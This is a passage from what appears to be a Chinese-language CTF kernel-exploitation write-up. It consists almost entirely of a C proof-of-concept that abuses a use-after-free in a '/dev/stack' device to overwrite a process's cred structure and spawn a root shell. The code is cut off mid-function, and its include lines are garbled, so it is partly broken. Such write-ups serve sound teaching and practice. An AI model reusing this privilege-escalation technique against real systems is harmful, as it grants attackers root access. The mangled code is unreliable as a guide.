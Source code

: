  

同样直接给出 poc 即可

### POC

```
#include #include #include #include #include #include #include #include #include #include struct addNote
{
    size_t len;
    char* data;
};
 
struct editNote
{
    size_t idx;
    size_t len;
    char* data;
};
 
 
 
//open dev
int openDev(char* pos);
void addFun(int fd,struct addNote* arg);
void freeFun(int fd,struct editNote* arg);
void editFun(int fd,struct editNote* arg);
void readFun(int fd,struct editNote* arg);
 
 
int main(int argc, char *argv[])
{
    int fd1,fd2;
    int idFork,idBefore;
    unsigned long memOffset;
    struct addNote addChunk;
    struct editNote readChunk;
    struct editNote editChunk;
    //char *mycred;
 
    //mycred = current_user_ns();
    //printf("Cred_addr:0x%llx\n",mycred);
 
    //open Dev
    char* pos = "/dev/stack";
    char credBuf[0xa8] = {0};
    fd1 = openDev(pos);
    fd2 = openDev(pos);
    ioctl(fd1,111,editChunk); //test add
    close(fd1);
 
    idFork = fork();
    printf("idFork:%d\n",idFork);
 
    if(idFork == 0){
        //get into 28*0 to set uid and gid 0
        idBefore = getuid();
        printf("Before uid:%d\n",idBefore);
        write(fd2, credBuf, 28);
 
        if(getuid() == 0){
            printf("[*]welcome root:\n");
            system("/bin/sh");
            return 0;
```